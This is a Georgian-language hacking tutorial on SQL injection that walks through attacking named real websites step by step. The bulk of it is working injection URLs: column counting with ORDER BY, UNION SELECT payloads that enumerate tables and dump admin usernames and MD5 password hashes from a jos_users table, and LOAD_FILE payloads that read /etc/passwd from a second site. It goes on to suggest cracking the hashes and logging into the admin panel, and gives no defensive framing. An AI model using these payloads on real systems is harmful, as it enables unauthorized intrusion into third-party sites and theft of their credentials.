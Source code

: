 # SQL Injection - ინექცია SQL რექვესტში

ალბათ ყველა აქედან იწყებს თავის ჰაკერულ ცხოვრებას :D

ჩვენც დავიწყოთ... :D


ჩემი აზრით მაგალითებზე ყველაზე კარგად ვსწავლობთ, ამიტომ ავიღოთ რომელიმე საიტი მაგალითად :)

# ნაბიჯი #1. ვეძებთ ბაგს!!...


საიტი შემდეგია:

```
http://www.kiis.com.ua/?id=2&sp=1
```

როდესაც მოცემულია მსგავსი ბმულლი (რაღაცა.php?id=რიცხვი), ბაგის საპოვნელად საკმარისია ბმულის ბოლოში **'** -ს მიწერა.

```
http://www.kiis.com.ua/?id=2&sp=1'
```

თუ საიტი ამოგვიგდებს შეცდომას (ოღონდ არა ნებისმიერს) ესე იგი შეიძლება ინექციის განხორციელება. როგორც ხედავთ ამ შემთხვევაშიც შეგვიძლია ინექციის გაკეთება.

    პატარა გადახვევა: ამ შემთხვევაში პირველი ორი შეცდომა არის **include** ფუნქციის, რომელიც ზოგჯერ
    საშუალებას გვაძლევს განვახორციელოთ **Local/Remote File Inclusion** რომელსაც, იმედია 
    განვიხილავთ შემდეგში.


# ნაბიჯი #2. ვითვლით სტოლბებს


ამისათვის ჩვენ შეგვიძლია გამოვიყენოთ order+by ფუნქცია, მაგრამ ამან შეიძლება ყოველთვის არ გაამართლოს და უბრალოდ მოგვიწევს ამ საფეხურის გამოტოვება :)

სტოლბების დათვლა ხდება შემდეგნაირად: ვივარაუდოთ, რომ მოცემულ გვერდს აქვს 10 სტოლბა, ამის შესამოწმებლად ჩვენ ვაკეთებთ შემდეგს...

```
http://www.kiis.com.ua/?id=2&sp=1+order+by+10--
```

როგორც ვხედავთ საიტი ისევ გვიჩვენებს შეცდომას, ეს იმას ნიშნავს, რომ გვაქვს 10 სტოლბაზე ნაკლები. ვაგრძელებთ... შემდეგი ვარაუდი 5 სტოლბა...

```
http://www.kiis.com.ua/?id=2&sp=1+order+by+5--
```

როგორც ხედავთ საიტი აღარ გვაძლევს იმ შეცდომას, რომელიც საშუალებას გვაძლევს განვახორციელოთ ინექცია (მაპატიეთ ტაფტალოგიისთვის:). ეს იმას ნიშნავს, რომ გვაქვს 5 სტოლბაზე მეტი.

ახლა უკვე ჩვენ ვიცით, რომ გვაქვს 5-ზე მეტი და 10-ზე ნაკლები სტოლბა. ვაგრძელებთ თვლას... ვივარაუდოთ 8 სტოლბა:

```
http://www.kiis.com.ua/?id=2&sp=1+order+by+8--
```

ისევ ვხედავთ შეცდომა. ვცადოთ 9 :)

```
http://www.kiis.com.ua/?id=2&sp=1+order+by+9--
```

საიტი არ აგდებს შეცდომას. ალბათ მიხვდით რასაც ნიშნავს ეს :) ჩვენ გვაქვს 9 სტოლბა. :)

# ნაბიჯი #3. ვიპოვოთ პრინტაბელური სტოლბა


ინფორმაციის გამოსატანად ჩვენ დაგვჭირდება **union+select** ბრძანება. რადგანაც ჩვენ გვაქვს 9 სტოლბა ჩვენი ბმული მიიღებს შემდეგ სახეს:

```
http://www.kiis.com.ua/?id=2&sp=1+union+select+1,2,3,4,5,6,7,8,9--
```

ალბათ შეამჩნიეთ ციფრი 5, რომელიც გაჩნდა ჩვენს გვერდზე. ეს ნიშნავს, რომ პრინტაბული სტოლბა არის 5.

პრინტაბელური სტოლბა საჭიროა იმისათვის, რომ გვერდზე გამოვიყვანოთ ჩვენს მიერ (შემდგომში) მიწოდებული ბრძანების შედეგები.

# ნაბიჟი #4. გავიგოთ sql-ის ვერსია


ამისათვის შემოგთავაზებთ ორ ბრძანებას, **@@version** და **version()**. პრინტაბელი სტოლბის მაგივრად ჩვენ უნდა ჩავსვათ რომელიმე ამ ბრძანებებისგან, საპასუხოდ კი 5-იანის (პრინტაბელური სტოლბის) ადგილას უნდა გამოვიდეს sql-ის ვერსსია. ვაგრძელებთ... ჩვენმა ბმულმა მიიღო შემდეგი სახე:

```
http://www.kiis.com.ua/?id=2&sp=1+union+select+1,2,3,4,@@version,6,7,8,9--
```

//sql-ის 4 ვერსიაზე ჩვენ ვერ შევძლებთ table-ებისა და column-ების სახელების გაგებას, ამიტომ მოგვიწევს მათი შერჩევა ხელით. გავაგრძელოთ კითხვა, ამ საკითხს მივუბრუნდები სტატიის ბოლოში.//

ამ შემთხვევაში ვხედავთ, რომ sql-ის ვერსიაა 5.x.x.

# ნაბიჯი #5. ვეძებთ table-ებს


ეს ნიშნავს, რომ ჩვენ შეგვიძლია გავიგოთ ყველა table და column შემდეგი ბრძანებების საშუალებით... 

```
group_concat(table_name)    +from+information_schema.tables
```

ბმული გამოიყურება შემდეგნაირად:

```
http://www.kiis.com.ua/?id=2&sp=1+union+select+1,2,3,4,group_concat(table_name),6,7,8,9+from+information_schema.tables--
```

როგორც ვხედავთ გვერდზე გამოვიდა table-ები, მაგრამ ეს არაა სრული სია. ამ table-ებს შეიძლება დავარქვათ დეფაულტ table-ები, ამიტომ ჩვენ უნდა მოვიხხმარიოთ სხვა ხერხი. ჩვენს ბრძანებას 

```
group_concat(table_name) უნდა მივცევთ ცოტა განსხვავებული სახე: **concat(table_name)**
```

ბმული გამოიყუება შემდეგნაირად:

```
http://www.kiis.com.ua/?id=2&sp=-1+union+select+1,2,3,4,concat(table_name),6,7,8,9+from+information_schema.tables--
```

გამოყოფს table-ებს ერთმანეთისაგან.

# ნაბიჯი #5. ვეძებთ column-ებს


ჩვენ უკვე გავიგეთ table-ების სახელები. ახლა უნდა ამოვარჩიოთ მათგან ყველაზე მიმზიდველი :D ამ შემთხვევაში ალბათ **jos_users**. ამის შემდეგ ჩვენ უნდა გავიგოთ column-ების სახელები, რომლებიც შეესაბამება ამ table-ს. ამისათვის ჩვენ ვიყენებთ შემდეგ ბრძანებას:

```
group_concat(column_name)  +from+information_schema.columns+where+table_name=0xTable
```

სადაც Table ჩვენი არჩეული ცხრილის ჰექსია. ტექსტის ჰექსებში გადაყვანა შეგიძლიათ  [ამ ბმულზე]](http://www.swingnote.com/tools/texttohex.php).

ჩვენს შემთხვევაში **group_concat** ბრძანება არ მუშაობს გამართულად, ამიტომ აქაც ვიყენებთ მას სახეცვლილი ფორმით:  **concat(column_name)**  

ამ დროისთვის ჩვენი ბმული იღებს ასეთ სახეს:

```
http://www.kiis.com.ua/?id=2&sp=-1+union+select+1,2,3,4,concat(column_name),6,7,8,9+from+information_schema.columns+where+table_name=0x6a6f735f7573657273--
```

**6a6f735f7573657273**  //jos_users//-ის ჰექსია.

# ნაბიჯი #6. ინფორმაციის ამოღება

ჩვენ უკვე ვიცით **jos_users** table-ს შესაბამისი column-ები. ახლა უნდა ავირჩიოთ მათგან რამოდენიმე, ჩვენთვის საინტერესო. ამ შემთხვევაში გვაინტერესებს username და password. **jos_users** table-სგან რომ მოვიპოვოთ ინფორმაცია username-სა და password-ების შესახებ ვაკეთებთ შემდეგს:

```
http://www.kiis.com.ua/?id=2&sp=-1+union+select+1,2,3,4,concat(username,0x3a,password),6,7,8,9+from+jos_users--
```

3a არის **:** -ის ჰექსი (სტანდარტულად, ჰექსის წინ იწერება 0x). ანუ - ჯერ უნდა გამოვიდეს username, შემდეგ :  შემდეგ კი password.

ამ ბმულის მეშვეობით ჩვენ შევძელით ადმინის, ტესტ ადმინის და PR მენეჯერის იუზერნეიმებისა და პაროლების გამოტანა. პაროლი არის დაკრიპტული, MD5 ალგორითმით. მისი გაკრეკვა შეიძლება სხვადასხვა პროგრამების დახმარებით, ასევე არსებობს [[reference:hash_crackers|ონლაინ კრეკერები]].

პაროლის გარკეკვის შემდეგ, შეგვიძლია მოვძებნოთ საიტის ადმინ პანელი და გამოვიყენოთ ადმინის ფუნქციები.


მივუბრუნდეთ 4.x.x sql-ის ვერსიის შემთხვევას. ესეთ შემთხვევაში ჩვენ ვერ გავიგებდით table-ებისა და column-ების სახელებს და მოგვიწევდა მათი ხელით, ან რაიმე პროგრამით მორგება. ეს კი მტკივნეული პროცესია და არც ისე დიდია გამართლების შანსი.

# ნაბიჯი #7. Load File ფუნქციის შესახებ


არის ისეთი შემთხვევებიც როცა ჩვენ შეგვიძლია სხვადასხვა ფაილების წაკითხვა სერვერზე, ინექციის საშუალებით. მგონი საკმარისი იქნება ერთი მაგალითის ჩვენება... და აი ისიც:

```
http://wwww.breakfastandbrunch.com/shop.php?catid=-2+union+select+LOAD_FILE('/etc/passwd')--
```

პრინტაბელური სტოლბის ადგილას უნდა ჩავწეროთ მაგალითად, **LOAD_FILE('/etc/passwd')** ან **LOAD_FILE('/etc/hosts')**

```
http://www.breakfastandbrunnch.com/shop.php?catid=-2+union+select+LOAD_FILE('/etc/hosts')--
```

აქაც შესაძლებელია ჰექსების გამოყენება, მაგალითად:

```
http://www.breakfastandbrunch.com/shop.php?catid=-2+union+select+LOAD_FILE(0x2f6574632f706173737764)--
```

სულ ეს იყო.

მადლობა HektoR-ს რითმისთვის :D

გმადლობთ ყურადღებისთვის.
